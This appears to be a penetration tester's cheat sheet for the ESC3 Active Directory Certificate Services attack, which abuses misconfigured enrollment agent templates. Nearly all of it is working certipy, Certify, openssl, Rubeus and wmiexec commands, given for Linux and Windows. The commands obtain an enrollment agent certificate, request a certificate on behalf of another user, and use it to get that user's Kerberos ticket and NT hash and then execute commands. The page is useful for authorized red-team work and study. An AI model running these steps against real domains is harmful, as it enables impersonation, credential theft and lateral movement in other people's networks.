 # ESC3—Misconfigured Enrollment Agent Templates

## Theory


> [!summary] Overview
> Templates that issue **Certificate Request Agent** EKU (`1.3.6.1.4.1.311.20.2.1`) to low-privileged users allow them to obtain an **enrollment agent** cert. That cert can then co-sign a CSR to enroll **on behalf of** another user in a second template that permits EoB (enroll-on-behalf-of) and has an authentication EKU (e.g., Client Authentication). Result: a valid cert for the target user, enabling PKINIT to get a TGT and NTLM.

## Linux

### Enumerate

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
# Look for templates with EKU: Certificate Request Agent and low-priv Enroll
# Also identify a second template (e.g., 'User') with Client Authentication EKU that allows EoB
```

### Step 1—Get Enrollment Agent Certificate (Condition 1)

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> \
  -ca '<CA_NAME>' -template '<EA_TEMPLATE>' \
  -out '<EA_BASENAME>'            # writes <EA_BASENAME>.pfx
```

### Step 2—Enroll on behalf of Target (Condition 2)

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> \
  -ca '<CA_NAME>' -template '<AUTH_TEMPLATE>' \
  -on-behalf-of '<DOMAIN>\<ALT_SAM>' -pfx '<EA_BASENAME>.pfx' \
  -out '<ALT_BASENAME>'           # writes <ALT_BASENAME>.pfx (target’s cert)
```

### Step 3—Authenticate as Target

```bash
certipy auth -pfx '<ALT_BASENAME>.pfx' -username '<ALT_SAM>' -domain '<DOMAIN>' -dc-ip <DC_IP>
# => produces <ALT_SAM>.ccache and may return NT hash
```

### Optional—Use TGT

```bash
KRB5CCNAME=<ALT_SAM>.ccache wmiexec.py -k -no-pass <TARGET_HOST_FQDN>
```

Placeholders: `<DOMAIN>` `<USER>` `<PASS>` `<DC_IP>` `<CA_NAME>` `<EA_TEMPLATE>` `<AUTH_TEMPLATE>` `<ALT_SAM>` `<EA_BASENAME>` `<ALT_BASENAME>` `<TARGET_HOST_FQDN>`

---

## Windows

### Enumerate

```powershell
.\Certify.exe find /vulnerable
# Identify: (1) template with Certificate Request Agent EKU and low-priv Enroll
#           (2) template with Client Authentication EKU that supports EoB
```

Optional LDAP:

```powershell
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)
  (|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.1)(mspki-certificate-application-policy=1.3.6.1.4.1.311.20.2.1)))' `
-SearchBase "CN=Configuration,<FOREST_DN>"
```

### Step 1—Get Enrollment Agent Certificate

```powershell
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:<EA_TEMPLATE> > ea.pem
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 `
  -in ea.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" `
  -export -out ea.pfx
```

### Step 2—Enroll on behalf of Target

```powershell
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:<AUTH_TEMPLATE> `
  /onbehalfof:<DOMAIN>\<ALT_SAM> /enrollcert:ea.pfx > target.pem
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 `
  -in target.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" `
  -export -out target.pfx
```

### Step 3—Authenticate as Target

```powershell
.\Rubeus.exe asktgt /user:<DOMAIN>\<ALT_SAM> /certificate:target.pfx /getcredentials /nowrap
# => Base64 TGT and possibly NTLM
.\Rubeus.exe createnetonly /program:powershell.exe /show
.\Rubeus.exe ptt /ticket:<BASE64_TGT>
```

